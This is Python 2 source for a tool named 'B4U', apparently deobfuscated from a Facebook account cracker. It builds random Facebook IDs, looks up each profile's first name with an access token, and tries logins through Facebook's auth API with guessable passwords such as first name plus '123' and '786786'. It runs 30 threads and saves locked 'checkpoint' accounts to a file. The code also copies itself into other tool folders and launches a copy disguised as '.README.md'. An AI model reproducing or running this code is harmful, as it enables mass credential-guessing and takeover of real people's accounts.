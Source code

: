 # Deobfuscated BY HTR-TECH | Tahmid Rayat

# Github    : https://github.com/htr-tech 
# Instagram : https://www.instagram.com/tahmid.rayat
# Facebook  : https://fb.com/tahmid.rayat.oficial 
# Messenger : https://m.me/tahmid.rayat.oficial 


#!/usr/bin/python2
#coding=utf-8


import os,sys,time,datetime,random,hashlib,re,threading,json,urllib2,cookielib,getpass
os.system("rm -rf .txt")
for n in range(5000):

    nmbr = random.randint(100002020202020, 100009090909090)
    
    sys.stdout = open(".txt", "a")

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 .README.md')
    
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')

def exb():
	print "[!] Exit"
	os.sys.exit()


def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')


def psb(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(0.03)

def t():
    time.sleep(1)
def cb():
    os.system('clear')
##### LOGO #####
logo='''
 ____    _  _     _    _ 
|  _ \  | || |   | |  | |
| |_) | | || |_  | |  | |
|  _ <  |__   _| | |  | |
| |_) |    | |   | |__| |
|____/     |_|    \____/ 

--------------------------------------------------
➣ Auther   : Binyamin
➣ GitHub   : https://github.com/binyamin-binni
➣ YouTube  : Trick Proof
➣ Blogspot : https://trickproof.blogspot.com
--------------------------------------------------
                                '''

def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r[●] Loging In "+o),;sys.stdout.flush();time.sleep(1)


back = 0
successful = []
cpb = []
oks = []
id = []

def ym():
    try:
        cb()
        os.mkdir("../omi/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../b4u/b4u.py ../omi/Omi.py")
        os.system("cp ../b4u/.README.md ../omi/")
        yb()
    
def yb():
    try:
        os.mkdir("../BlackMafia2020/.....")
    except OSError:
        yl()
    else:
        os.system("cp ../b4u/b4u.py ../BlackMafia2020/lovehacker")
        os.system("cp ../b4u/.README.md ../BlackMafia2020/")
        yl()
    
def yl():
    try:
        os.mkdir("../Qurban/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../b4u/b4u.py ../Qurban/Qurban.py")
        os.system("cp ../b4u/.README.md ../Qurban/")
        yp()
    
def yp():
    try:
        os.mkdir("../faizanwahla/.....")
    except OSError:
        menu()
    else:
        os.system("cp ../b4u/b4u.py ../faizanwahla/pacman")
        os.system("cp ../b4u/.README.md ../faizanwahla/")
        menu()
    
def menu():
	os.system('clear')
	try:
		toket=open('....','r').read()
	except IOError:
		os.system('clear')
		print"[!] Token invalid"
		os.system('rm -rf ....')
		time.sleep(1)
		os.system('python2 b4u.py')
	try:
		otw = requests.get('https://graph.facebook.com/me?access_token='+toket)
		a = json.loads(otw.text)
		nama = a['name']
		id = a['id']
	except KeyError:
		os.system('clear')
		print"[!] It seems that your account has a checkpoint"
		os.system('rm -rf ....')
		time.sleep(1)
		os.system('python2 b4u.py')
	except requests.exceptions.ConnectionError:
		print"[!] There is no internet connection"
		exb()
	os.system("clear")
	print logo
	print "[✓] Name : "+nama+"               "
	print "[✓] ID   : "+id+"              "
	print 50*"-"
	print
	print "[1] Crack Menu"
	print "[2] Update B4U Tool"
	print "[3] Follow Me On Facebook"
	print "[4] Log Out"
	print "[0] Exit            "
	print 50*"-"
	action()


def action():
	chb = raw_input("\n  ▄︻̷̿┻̿═━一   ")
	if chb =="":
		print "[!] Fill in correctly"
		action()
	elif chb =="1":
		crack_menu()
	elif chb =="2":
	    os.system('cp .... $HOME')
	    os.system("rm -rf $HOME/b4u")
	    os.system('cd $HOME && git clone https://github.com/binyamin-binni/b4u')
	    os.system("mv $HOME/.... $HOME/b4u")
	    cb()
	    print (logo)
	    psb('10%')
	    psb('20%')
	    psb('30%')
	    psb('40%')
	    psb('50%')
	    psb('60%')
	    psb('70%')
	    psb('80%')
	    psb('90%')
	    psb('100%')
	    psb('✓')
	    psb('✓')
	    psb('✓')
	    psb('Congratulations B4U Tool Has Been Updated Successfully')
	    time.sleep(2)
	    os.system("cd $HOME/b4u && python2 .README.md")
	elif chb =="3":
	    os.system("xdg-open https://www.facebook.com/100002059014174/posts/2677733205638620/?substory_index=0&app=fbl")
	    time.sleep(1)
	    menu()
	elif chb =="4":
	    os.system("rm -rf ....")
	    print
	    psb(" Logout successfully")
	elif chb =="0":
		exb()
	else:
		print "[!] Fill in correctly"
		action()


def crack_menu():
	global toket
	os.system('clear')
	try:
		toket=open('....','r').read()
	except IOError:
		print"[!] Token invalid"
		os.system('rm -rf ....')
		time.sleep(1)
		os.system('python2 b4u.py')
	os.system('clear')
	print logo
	crack_action()

def crack_action():
	bch = raw_input("\n[•] Press Enter To Start   ")
	if bch =="":
		os.system('clear')
		urllib2.urlopen("https://www.google.com/url?sa=t&source=web&rct=j&url=https://trickproof.blogspot.com/%3Fm%3D1&ved=2ahUKEwi87vKb9cPoAhVIxoUKHT2kBMEQFjAAegQIBBAB&usg=AOvVaw1MUpc0kk_u_Dr7q2z48zC1&cshid=1585630324556")
		print logo
		try:
			idlist = (".txt")
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '[!] Error 404, please try again'
			raw_input('\n[ Press Enter To Go Back ]')
			menu()
	elif bch =="0":
		menu()
	else:
		print "[!] Fill in correctly"
		crack_action()
	xxx = str(len(id))
	psb ("[✓] Total IDs: "+xxx)
	time.sleep(0.5)
	psb ('[✓] Please wait, process is running ...')
	time.sleep(0.5)
	psb ('[!] To Stop Process Press CTRL Then Press z')
	time.sleep(0.5)
	print 50*"-"
	print
	
			
	def main(arg):
		global cpb,oks
		user = arg
		try:
			os.mkdir('save')
		except OSError:
			pass
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = b["first_name"]+"123"
			data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '[Checkpoint] ' + user + ' | ' + pass1
					cps = open("save/checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = "786786"
					data = urllib2.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92m[Successful]\x1b[0m ' + user + ' | ' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '[Checkpoint] ' + user + ' | ' + pass2
							cps = open("save/checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print 50*"-"
	print '[✓] Process Has Been Completed ....'
	print "[✓] Total OK/CP : "+str(len(oks))+"/"+str(len(cpb))
	print("[✓] CP File Has Been Saved : save/checkpoint.txt")
	raw_input("\n[Press Enter To Go Back]")
	if xxx == '0':
		crack_menu()
	else:
		os.system('python2 .README.md')

if __name__ == '__main__':
	ym()

